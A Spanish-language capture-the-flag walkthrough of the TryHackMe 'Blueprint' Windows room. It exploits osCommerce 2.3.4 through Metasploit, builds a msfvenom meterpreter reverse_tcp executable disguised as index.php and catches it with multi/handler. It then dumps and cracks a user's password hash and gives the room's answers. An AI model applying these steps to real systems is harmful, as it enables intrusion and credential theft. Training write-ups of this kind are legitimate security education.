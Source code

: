 Bienvenidos nuevamente a otra sala de TryHackMe. En esta ocasion, explotaremos una maquina windows abusandonos de la version del servidor utilizando #Metasploit. Luego generaremos un script malicioso con ayuda de #Msfvenom creando una shell con privilegios de Administrador. Vamos!

# Recon

Como siempre, iniciaremos nuestro reconocimientos escaneando todos los puertos, listando puertos abiertos y versiones del servicio. Ejecutaremos : ``sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap``
```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.32s latency).
Scanned at 2023-04-26 01:50:57 EDT for 107s
Not shown: 47315 filtered tcp ports (no-response), 18207 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 7.5
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 127 MariaDB (unauthorized)
8080/tcp  open  http         syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49160/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Nuestro escaneo nos muestra 13 puertos abiertos, de los cuales algunos no tendremos acceso si intentamos navegar. Asique navegaremos dentro del puerto 8080 y nos llevara a un catalago donde se almacena informacion del servicio. 

# Intrusion

Anteriormente, podremos obtener la version del servicio "**oscommerce 2.3.4**". Dado que conocemos la version, podemos buscar si existe alguna vulnerabilidad para que podamos acceder. Para ello, utilizaremos #Metasploit buscando con **search** la version para asi seleccionarla y configurarla de la siguiente forma:

> `msfconsole` --> Abriremos la terminal de Metasploit
> `search oscommerce 2.3.4` --> Buscaremos la vulnerabilidad
> `use `--> Seleccionamos 

Una vez seleccionamos la vulnerabilidad, tendremos que modificar las siguiente opciones :

> `RHOSTS` ---> IPTARGET
> `RPORT` ---> Puerto a explotar (8080)
> `TARGET URI` ---> /oscommerce-2.3.4/catalog/install
> `LHOST` ---> Nuestra IP


Configurado todo, ejecutamos el exploit con `run` y obtendremos una shell dentro del sistema. En esta terminal no tendremos mucha libertad para realizar comandos, solo podremos echar un vistazo y enumerar el servicio. Para obtener una terminal con mas privilegios y libertad, debermos crear un script malicioso que nos genere un reverse shell privilegiado.

# Priv.Escalation

Para esta tarea, vamos a utilizar #Msfvenom . Crearemos un script malicioso que nos sera util para generar una shell privilegiada y poder acceder a carpetas con permisos Administrador. Primero, crearemos el script ejecutando `msfvenom -p windows/meterpreter/reverse_tcp LHOST="" LPORT="" -f exe -o index.php`

Le diremos a msvenom que cree un ejecutable **.exe** llamado **index.php** con una carga util basada en terminal /meterpreter que generara un reverse_tcp en nuestra terminal. Esto nos dara libertad a la hora de ejecutar comandos.

Segundo, tendremos que abrir otra terminal de #Metasploit con **Multi/Handler** . Para ello, tendremos que ejecutar `use /exploit/multi/handler`  con carga util `use payload /windows/meterpreter/reverse_tcp` , Configuraremos : 

>`LHOST` ---> IP que pusimos en **msfvenom**
>`LPORT` ---> Puerto de escucha que pusimos en **msfvenom**

Una vez configurado, lo corremos con `run` o `exploit`. 
Tercero, tendremos que pasarnos nuestro script malicioso a la maquina victima, para ello, nos dirigimos a la primera sesion de meterpreter y ejecutaremos `upload index.php`. Tendremos que estar dentro del directorio del archivo.

Por ultimo, ejectuaremos el script `execute -f index.php` y obtendremos respuesta en nuestra sesion **/multi/handler**. Ya tendremos los permisos necesarios para enumerar la maquina ~

# Respuestas

#FLAG = Ejecutamos `hashdump` y nos mostrara el hash del usuario **lab** `30e87bf999828446a1c1209ddde4c450`, Lo pasamos por **crackstation** y crackeamos el hash. 	**googleplus**
#ROOT = Estara escondida en C:\ Users\ Administrator \ Desktop  